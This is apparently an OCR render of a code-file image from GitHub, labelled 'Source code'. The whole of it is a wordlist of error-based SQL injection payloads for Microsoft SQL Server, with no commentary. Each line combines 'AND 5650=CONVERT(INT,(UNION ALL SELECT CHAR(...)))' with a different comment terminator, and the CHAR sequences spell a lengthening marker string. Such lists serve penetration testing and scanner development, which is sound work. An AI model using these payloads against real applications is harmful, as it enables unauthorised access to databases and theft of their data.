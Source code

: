 ```
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))-- 
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))#
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))-- 
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))#
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))-- 
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))#
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))-- 
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))#
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))-- 
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))#
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))-- 
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))#
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))-- 
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))#
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))-- 
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))#
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))-- 
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))#
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))-- 
```